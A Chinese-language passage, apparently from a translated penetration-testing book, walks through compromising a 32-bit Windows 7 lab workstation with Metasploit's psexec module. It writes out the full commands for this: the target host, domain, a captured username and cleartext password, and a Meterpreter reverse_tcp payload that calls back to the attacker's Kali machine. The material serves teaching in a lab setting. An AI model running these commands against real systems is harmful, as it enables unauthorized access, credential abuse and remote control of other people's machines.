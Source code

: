 # 开发 32 位系统

在前面的部分中，我们使用标准的 EternalBlue 漏洞攻击了 64 位机器。现在让我们使用`psexec`模块来折衷一个 32 位系统。我们正在使用此模块，因为我们从上次攻击中收集了凭据。这一次，我们正在寻找网络上的一个工作站。工作站通常由许多不同的人使用，因此这台机器上应该有许多存储的凭据。我们拥有的凭据越多，访问权限就越大。要使用此模块，请键入以下内容：

```
use exploit/windows/smb/psexec
show options # To see the module's options.  
```

我们需要加载与之前相同的选项，但我们将攻击`172.16.42.173 \\WIN7-01`：

```
set RHOST 172.16.42.173 # Set the victim host.
set SMBDomain LAB1 # Set the domain.
set SMBUser fflintstone # The captured username
set SMBPass CatKeeper! # The captured clear text credentials (This can be a hash!)
show options # To check your settings.  
```

接下来，我们需要选择一个有效负载，因此运行以下命令以查看可用的有效负载：

```
show payloads  
```

在上一次攻击中，当我们运行此命令时，我们只看到 64 位有效负载。这一次，我们可以选择 32 位和 64 位的有效负载。WIN7-01 是 32 位的，因此我们需要选择适当的有效负载：

```
set PAYLOAD windows/meterpreter/reverse_tcp 
```

您会注意到，这是同一类型的反向 TCP 负载，但没有在其命令行中显示 x64。这是一个 32 位系统。

如果您之前没有全局设置您的`LHOST`（您的 Kali 机器），您现在需要设置它：

```
set LHOST 172.16.42.140 # This sets the local host. Use setg to set this value globally. 
```

**Hacker's tip**:
Metasploit will automatically try to set up the `LHOST` interface for exploits. This can create a problem if the Kali machine is connected to two or more networks. The exploit handler may connect to the wrong network causing the exploit to fail. Normally, when running Metasploit, after entering into my workspace, I go ahead and globally set the `LHOST` interface using the `setg` global option to the local host.

再次运行`show options`命令，我们可以看到攻击远程主机的正确设置：

![](img/d836e7c0-fc90-4767-ad06-dbfaa908be3f.png)

